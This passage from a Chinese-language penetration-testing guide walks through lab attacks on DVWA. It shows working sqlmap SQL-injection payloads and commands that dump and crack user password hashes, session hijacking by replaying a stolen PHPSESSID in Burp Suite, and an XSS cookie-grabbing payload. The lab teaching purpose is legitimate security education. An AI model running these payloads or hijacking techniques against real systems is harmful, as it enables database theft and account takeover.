Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
(NOT)
    Payload: id=user' OR NOT 7464=7464#&Submit=Submit

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE, HAVING clause (FLOOR)
    Payload: id=user' OR ROW(4754,5183)>(SELECT
COUNT(*),CONCAT(0x7178716271,(SELECT
(ELT(4754=4754,1))),0x717a787871,FLOOR(RAND(0)*2))x FROM (SELECT 8570 UNION
SELECT 4972 UNION SELECT 6862 UNION SELECT 3610)a GROUP BY x)--
XzFT&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=user' OR SLEEP(5)-- ujbo&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=user' UNION ALL SELECT
CONCAT(0x7178716271,0x49457673424f7a5643596f684b776d4c644c7261434864586e726
6776569477377494f576c657167,0x717a787871),NULL#&Submit=Submit
---
```

现在，由于 sqlmap 成功了，它让我知道基于其扫描和 SQL 注入所掌握的所有信息。这包括版本系统和软件版本，以及系统上使用的数据库名称。相当酷：

```
[02:28:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[02:28:42] [INFO] fetching database names
available databases [7]:
[*] dvwa
[*] information_schema
```

```
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195

[02:28:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.33.31'
```

但唯一不精确的是正在使用的 MySQL 版本。这没问题。我们可以在 sqlmap 中使用两个不同的开关来尝试弄清楚，-f 和 -b 开关。-f 将对 MySQL 进行指纹识别，而 -b 将检查横幅。我通常都会检查两者以确保，因为横幅可以被关闭甚至伪造。

首先，让我们检查 sqlmap 中的指纹选项在以下片段中告诉我们什么。请注意，我使用的是与之前相同的 URL 和相同的 cookie。我需要利用 SQL 注入来获取我需要的信息：

```
root@pi-kali:~# sqlmap -u "http://192.168.33.31/dvwa/vulnerabilities/sqli/?id=user&Submit=Submit#" --cookie="PHPSESSID=eb6e6cd3ca8532aa5abb6edf879713e7; security=low" --f
```

```
[02:51:13] [INFO] testing MySQL
[02:51:13] [WARNING] reflective value(s) found and filtering out
[02:51:13] [INFO] confirming MySQL
[02:51:14] [INFO] the back-end DBMS is MySQL
[02:51:14] [INFO] actively fingerprinting MySQL
[02:51:14] [INFO] heuristics detected web page charset 'ascii'
[02:51:14] [INFO] executing MySQL comment injection fingerprint
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: active fingerprint: MySQL >= 5.0.38 and < 5.1.2
                comment injection fingerprint: MySQL 5.0.51
[02:51:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.33.31'/192.168.33.31'
```

现在，让我们看看 sqlmap 中的横幅有什么信息可以告诉我们：

```
root@pi-kali:~# sqlmap -u "http://192.168.33.31/dvwa/vulnerabilities/sqli/?id=user&Submit=Submit#" --cookie="PHPSESSID=eb6e6cd3ca8532aa5abb6edf879713e7; security=low" -b
```

```
[02:51:34] [INFO] the back-end DBMS is MySQL
[02:51:34] [INFO] fetching banner
[02:51:35] [WARNING] reflective value(s) found and filtering out
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
```

```
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL 5
banner: '5.0.51a-3ubuntu5'
[02:51:35] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.33.31'
```

如你所见，两个选项都返回了 MySQL 5.0.51。Sqlmap 使获取此类信息以及其他信息变得非常容易，这全都是因为 SQL 注入攻击和编码不佳的 Web 应用程序。但我通常会为 sqlmap 再运行一个选项，那就是 -dump 选项，它会在指定时转储指定的数据库表条目。由于我不会指定当前数据库，它将使用应用程序当前使用的数据库。让我们看看这个选项会带来什么。

```
root@pi-kali:~# sqlmap -u "http://192.168.33.31/dvwa/vulnerabilities/sqli/?id=user&Submit=Submit#" --cookie="PHPSESSID=eb6e6cd3ca8532aa5abb6edf879713e7; security=low" --dump
```

```
[03:09:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[03:09:22] [INFO] fetching current database
[03:09:23] [WARNING] reflective value(s) found and filtering out
[03:09:23] [INFO] fetching tables for database: 'dvwa'
[03:09:23] [INFO] fetching columns for table 'users' in database 'dvwa'
[03:09:23] [INFO] fetching entries for table 'users' in database 'dvwa'
[03:09:23] [INFO] analyzing table dump for possible password hashes
[03:09:23] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[03:09:28] [INFO] writing hashes to a temporary file '/tmp/sqlmapJiEVrD21383/sqlmaphashes-pJvsGN.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[03:09:33] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[03:09:37] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[03:09:39] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[03:09:39] [INFO] starting 4 processes
[03:09:53] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[03:10:02] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[03:10:18] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
[03:10:25] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
```

从上面的输出中，你会注意到它找到了当前数据库，即 dvwa。它获取了表，并找到了一个 users 表。它注意到使用了特定的哈希方法，并将尝试使用默认字典文件来破解它们。它将在 sqlmap 中直接运行破解。根据输出，它已成功破解了这些用户的密码。

之后，它将转储 users 表，包括密码以及完整的列，如下所示：



然后它将枚举下一个表，在本例中是 guestbook：



这只是 sqlmap 所能做的冰山一角。它是一个极其有用且功能强大的工具，但使用起来非常简单。

## 错误处理问题

使用 OWASP ZAP，你还可以检查 Web 应用程序中的错误处理问题。你希望能够让用户了解问题可能是什么，但不要披露太多信息。例如，如果有人尝试登录网站，而密码错误，你不想告诉用户密码不正确，因为这会让对方知道用户名是正确的，只是密码不对。你处理这种情况的方式就是只说登录凭据不正确。

使用 OWASP，你还可以扫描错误披露问题。下面是实验室中的一次扫描，你会注意到它发现了一些问题：



如果我浏览其中一个页面，你会看到我不仅仅得到一个 404 页面未找到，我会得到一些额外的信息，这些信息可能不应该向用户披露，如下所示：




理论上，错误信息应该是通用的，让你知道页面不存在，但不会透露任何其他信息，类似于下面来自 google.com 的页面。现在我们仍然收到 404 错误，因此我们知道该页面不存在，但它没有提供任何额外信息，这比上面的示例更好：



## Session management

确保在使用 Web 应用程序时他人无法劫持你的会话非常重要。否则，他们不仅能够看到你在做什么，还能用你的信息购买商品。Web 应用程序必须具备防范会话劫持的安全措施。会话可以有各种类型。例如，它们可以使用 cookie，或在 URL 中，甚至使用隐藏字段。无论会话类型如何，它们都应唯一属于某个用户，并且不能被其他用户窃取或查看。

使用以下一些工具，我将测试一些 Web 应用程序是否存在会话劫持问题。

## Burp Suite with intercept

Burp Suite 是一个相当全面的产品，具有许多执行大量不同功能的模块。功能列在顶部，包括 Proxy、Spider、Intruder、Repeater 等。由于我们讨论的是会话操纵，我们将使用 Proxy 和 Intercept 功能。这将允许我们尝试中间人连接并窃取会话信息。其他功能也允许以其他非常强大的方式测试你的 Web 应用程序，但超出了本会话管理部分的范围。有关这些部分的更多信息，你可以查看 Burp Suite 帮助页面：https://portswigger.net/burp/help/suite_burptools.html。

现在，让我们接下来试用 Proxy 功能。要使用 Proxy 和拦截功能，我们首先需要记录一个有效的会话。如何将流量引导至 Burp Suite 完全取决于你。我将使用一个假的代理服务器设置，让客户端在我这里经过后再到达最终目的地。这将使我能够看到他们的会话 ID，并希望将其回放给目标应用程序，从而无需登录即可进入。为此，我将假设代理服务器设置已经完成。

我将前往我的模拟客户端机器，并登录一个用于测试的网站。我会确保在 Burp Suite 中已打开拦截。你可以在下面看到该选项：



然后我将前往我的客户端机器，并登录我在实验室中要测试的网站：


在客户端机器上浏览时，如果已打开拦截，你需要为每个请求点击转发。

一旦我到达登录页面，我将登录并进入主登录页面。



登录后，我将刷新页面以验证我仍处于登录状态，然后获取 PHPSESSID。我将复制该 ID，并粘贴到我选择的文本编辑器中。记住，你需要在任何连接上点击转发，包括刷新。



完成后，我将打开我的本地浏览器，该浏览器也通过代理。这将是黑客电脑。我将访问同一个网站，但确保直接进入登录后显示的页面，在本例中根据上面的 `GET` 命令是 `index.php`：



现在，由于我也在拦截它，我将查看 RAW 输出。在点击转发之前，我将把新连接中获得的 `PHPSESSID` 改为上面获取的那个：



然后我将删除该 ID，并粘贴上面的那个。以下截图显示旧会话 ID 已替换我的新 ID：



一切就绪后，我将点击转发，我的浏览器将直接进入 index.php 页面，而无需我输入任何凭据，因为我能够从已登录的另一用户那里窃取会话。

## Using XSS for cookie retrieval

当我们在上一节讨论跨站脚本时，我插入的脚本只是输出一个警告消息。但从技术上讲，你可以将脚本添加到其他内容中。一个选项是通过让脚本抓取当前会话 ID 并发送给黑客来检索其他用户的会话信息。这样，他们就能在用户登录应用程序时抓取所有会话 ID。

在我的示例中，我将仅通过警告框将会话 ID 输出到屏幕，以便我们验证会话 ID 是否存在，但稍作修改后，你可以让它发送给黑客。

为此，我将使用以下方法访问该会话 ID 信息：

```
<script>alert(document.cookie)</script>
```

现在，当该脚本在客户端浏览器中运行时，我可以看到用户的会话 ID 在该警告菜单中弹出：



这是一种非常简单的方式来获取并使用其他用户的会话信息，而无需你自己登录这些应用程序。

## Summary

我们现在完成了第 8 天，让我们回顾一下。我们讨论了 Web 应用程序安全的各种 OWASP 类别，包括基础设施和设计缺陷、基于身份的测试、验证数据/错误处理和逻辑、会话管理，最后是客户端测试的操纵。我在实验室中使用了各种工具来搜索每个类别中存在问题的 Web 应用程序。这些工具都在 Kali Linux 中运行，并提供了它们披露的问题的大量信息。

在下一章中，我将谈论如何退出环境并进行清理，因为渗透测试即将结束。这是一项重要任务，因为我们不想留下任何发现或信息。此外，我们希望确保在渗透测试之前环境与我们找到时一样。

我将介绍如何清理我们留下的痕迹，以及如何掩盖我们的踪迹并销毁我们可能需要的任何设备。很多内容最终将取决于与利益相关者讨论的初始参与范围。
